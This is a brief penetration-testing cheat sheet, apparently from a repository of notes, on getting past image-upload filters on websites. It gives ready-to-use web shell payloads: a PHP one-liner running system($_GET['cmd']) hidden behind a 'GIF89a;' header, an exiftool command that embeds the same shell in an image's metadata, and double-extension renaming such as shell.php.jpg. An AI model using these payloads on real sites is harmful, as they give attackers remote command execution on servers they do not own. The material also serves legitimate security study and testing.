 # Bypass image upload

Here is the definite guide:

http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html

https://www.owasp.org/index.php/Unrestricted_File_Upload

## Rename it

But instead we can just rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

## GIF89a;
If they check the content.
Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In image
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data.
Then I had to rename the file

mv lo.jpg lo.php.jpg